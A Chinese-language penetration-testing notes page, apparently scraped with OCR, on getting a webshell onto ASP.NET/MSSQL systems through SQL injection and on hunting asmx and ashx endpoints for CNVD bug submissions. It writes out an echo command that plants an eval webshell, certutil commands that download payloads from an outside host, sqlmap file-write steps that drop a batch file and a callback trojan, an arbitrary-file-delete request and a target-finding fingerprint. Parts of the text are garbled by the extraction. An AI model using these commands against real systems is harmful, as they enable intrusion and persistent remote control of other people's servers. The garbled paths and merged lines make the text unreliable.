 如下最常用的 echo 写 shellecho ^<^%eval request("z")%^>^> E:\\\\1 项目资料\\E7HRBLL\\\\Report\\\\KaoQin\\\\1.aspcmd 中 sqlmap 将“E:1\\项目资料\\E7HRBLL\\Report\\KaoQin\\1.asp”这个默认utf8 编码的路径进行 hex 编码然后传参到 gbk 编码的 mssql 数据库中执行。中文路径会直接乱码，导致无法写 shell.

解决办法:

1 使用 certutil.exe 下载certutil -urlcache -split -f http://xss.xiuo9.cn/1.execertutil.exe -urlcache -split -f http://xss.xiu09.cn/1.txt D:\\1.asp

2 使用 sqlmap 自带上传功能（也是利用 certutil.exe，但是兼容性更好，推荐使用)首先在本机写一个 gbk 编码的 txt，内容是 echo 写木马

然后 sQLmap 执行-file-write C\\Usersxiu\\Desktop\\1.txt -file-dest D:\\1.bat将本地 1.txt 上传到对方机器 d 盘 1.bat然后在 os-shell 中执行 1.bat 可以自动将 shell 写到自己想写的路径也可以用于写上线马

3 通过其他端口拿到源码后的简单利用

通过 js/爆破等方法都无法进—步利用，可以 fofa 搜这个通用的系统的其他端口,

4 拿到源码之后要怎么做

4.1 拿到源码之后，第一时间寻找 web.config（详见https://www.cnblogs.com/kevin860/p/10958299.html），看配置文件，有写有数据库的东西跟一下接口

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJibVXD3ULCk234YXWEz0P9zDiaDOTEGicsTZwWue3JDiawbzFW3T1CWALKH0WlWrXCykBGFsJycXSW2Cg%2F640%3Fwx_fmt%3Dpng)

接下来就寻找 asmx 结尾的文件

asmx 是什么？asmx 是 WEB 服务文件asmx.cs 里有相关代码属于 B/S 形式，用 SOAP 方式 HTTP 访问，用 XML 返回可以返回基础类型和 PUBLIC 结构类型。

在 C/S 结构中经常用到

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJibVXD3ULCk234YXWEz0P9zDXic6LPfakEtZhLVStUjBobWcaHYxR5NC8YyPfnVibuFGcSm8CJwny7Mg%2F640%3Fwx_fmt%3Dpng)

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJibVXD3ULCk234YXWEz0P9zDicAjbD9QtibyE4A4liaeI2GTPH3cxX6uzgSZyCCytibksFHcLzr4uXvc7Q%2F640%3Fwx_fmt%3Dpng)

soap 最容易出现什么漏洞

注入 上传 各种信息泄露等等

最简单的办法，发现 soap 直接丢到 sqlmap 百分之八十出注入

4.2 寻找 ashx 结尾的文件ashx 是 sapx 的众多组件之一，也是.net 的扩展名之一我们也可以把 ashx 理解成各种方法通过 Class 类找到对应的 dll 文件，拖到 dnspy 反编译比如说 upload.ashx找到对应的 dll 文件拖到 dnspy 反编译使用 action 来调用方法并且 upload.ashx 有多达 30 多个方法，然而程序员将只调用了几个有拦截的文件上传接口，这些没拦截的任意文件上传和任意文件删除方法不通过反编译是挖掘不了的任意文件删除方法http://xxxxxx0xxx/Ajax/upload.ashx?action=deleteBackground&nameD:/FumaBS\_New/1.txt

思路：

1.爆破 js 寻找有没有 asmx 的文件

2.目录遍历 寻找 saop 接口 一般有目录遍历有百分之八十是能找到 soap 接口补充：利用反编译寻找其他的方法，.net 可以扫备份文件

0x03 SRC 挖掘-拿下 CNVD 证书

3.1条件：通用性 100+ip 部署该系统 公司注册资产超 5000w分类 ：开源 闭源 售卖开源：代码审计 自动扫描闭源：尝试性获取源码 无源码下 js 接口测试 常规类黑盒安全测试售卖：尝试性获取源码 无源码下 js 接口测试 常规类黑盒安全测试技术：代码审计 影响查找代码审计：PHP .net Java影响查找：黑暗引擎 白白引擎

3.2 如何寻找上述三类系统并进行安全测试开源：各大源码站进行下载代码审计闭源：fofa 搜索尝试获取源码审计或黑盒测试售卖：套路社工获取源码或购买源码审计或黑盒测试确定无源码的情况下，课利用 js 文件（详见https://blog.csdn.net/weixin\_40418457/article/details/116451794）寻找测试接口

3.2 如果挑选最简单的入手目前 Java 的开发难度最大，py 的项目较少，挑 php，aspx 入手其中 PHP 代码清晰明了，前面也讲了，aspx 涉及反编译代码后审计body="DM-static/assets/jquery.js,""admindm-yourname"
